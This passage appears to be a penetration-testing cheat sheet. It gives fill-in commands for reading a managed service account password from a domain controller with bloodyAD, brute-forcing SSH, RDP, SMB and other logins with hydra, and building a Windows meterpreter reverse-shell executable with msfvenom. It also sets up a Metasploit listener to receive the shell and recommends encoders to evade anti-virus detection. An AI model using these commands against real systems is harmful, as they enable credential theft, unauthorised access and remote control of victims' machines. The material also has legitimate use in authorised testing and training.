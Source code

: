 ### Read GMSA Password:
```
bloodyAD --host "<DC-IP>" -d "<DOMAIN>" -u "<USERNAME>" -p "<PASSWORD>" get object $TargetObject --attr msDS-ManagedPassword
```

## Bruteforcing
### Service Bruteforce:
```
hydra -l '<TARGET_USERNAME>' -P /usr/share/wordlists/rockyou.txt <SERVICE>://<TARGET_IP>
hydra -L '<USERNAME_LIST>' -P /usr/share/wordlists/rockyou.txt <SERVICE>://<TARGET_IP>

SUPPORTED SERVICES: SSH, FTP, RDP, VNC, SMB, POP3, TELNET
```

## Generating Payloads for Windows Hosts
### Msfvenom

You can use `msfvenom` to quickly generate a multitude of payload types.\
Including meterpreter shells which you can use to take advantage of metasploit modules within a compromised machine.

```
msfvenom --list all
[Used to list the available modules (payload, encoders, etc.)]

msfvenom -p <payload_type> LHOST=<Listener_IP|Hostname|Domain> LPORT=<Listener_Port> -f <output_format> -o <output_name>
[General msfvenom command template]

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Listener_IP> LPORT=<Listener_Port> -f exe -o payload.exe
[Generates a meterpreter shell for Windows (64-bit) in an EXE format]

You can use the '-e' argument and supply an encoder type to encode the payload, this can help prevent detection by AV (anti-virus) software.
```

- Setting up a listener

If you are using a meterpreter payload, you should setup a listener, before deploying the payload, using `msfconsole`.

```
Commands to run:

- msfconsole
- use exploit/multi/handler
- set PAYLOAD <payload_type_used>
- set LHOST <Listener_IP_used>
- set LPORT <Listener_Port_used>
- run
```
If the listener fails to start correctly, you should check that you are attempting to listen on the correct IP (LHOST).\
Another issue could be that if you are attempting to listen on a port below 1024, these are considered "privileged ports". You should run `msfconsole` with administrative permissions (using `sudo`).

